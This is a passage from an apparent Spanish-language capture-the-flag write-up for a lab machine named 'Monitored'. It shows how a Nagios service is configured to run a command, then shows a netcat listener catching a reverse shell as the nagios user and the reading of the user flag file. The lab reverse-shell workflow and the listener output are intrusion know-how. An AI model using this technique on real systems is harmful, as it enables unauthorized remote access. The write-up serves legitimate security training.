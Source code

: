 ![](monitored13.jpg)

Ahora como se hace para ejecutar el comando creado, existe otra opcion de servicios, en esa se crea un servicio nuevo, seleccionando el comando que creamos.

![](monitored_shell.jpg)

De esa forma aparecera la opcion de correr el comando, antes de correrlo se debe crear un escucha en nuestra bash y asi entablar la conexion con la reverse shell.
~~~bash
sudo nc -nlvp 4433                     
[sudo] password for kali: 
listening on [any] 4433 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.248] 48308
id
uid=1001(nagios) gid=1001(nagios) groups=1001(nagios),1002(nagcmd)
~~~
POR FIN. Ahora somos el usuario nagios.

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

### User Flag
Con acceso al servidor, ahora se puede buscar la user flag.
~~~bash
nagios@monitored:~$ ls
cookie.txt  user.txt
nagios@monitored:~$ cat user.txt
<Encuentre su propia user flag>
~~~

---